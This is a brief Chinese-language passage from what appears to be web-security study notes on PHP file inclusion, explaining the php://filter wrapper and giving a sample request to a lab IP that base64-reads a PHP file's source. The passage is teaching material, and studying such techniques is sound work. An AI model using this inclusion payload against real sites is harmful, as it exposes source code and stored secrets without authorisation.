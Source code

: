![image-20230413154223893](assets/NLwThSPkaDlXzxH.png)

#### 2.4.2.4. php利用方式

1）php://filter

php://filter 可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启，读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了

```
用法：php://filter/read=convert.base64-encode/resource=要读取的文件
URL：http://192.168.10.150/1.php/?name=php://filter/read=convert.base64-encode/resource=2.php
解密：<?php phpinfo();?>
```

![image-20230413154246200](assets/M3HnClYe2GRVdLu.png)
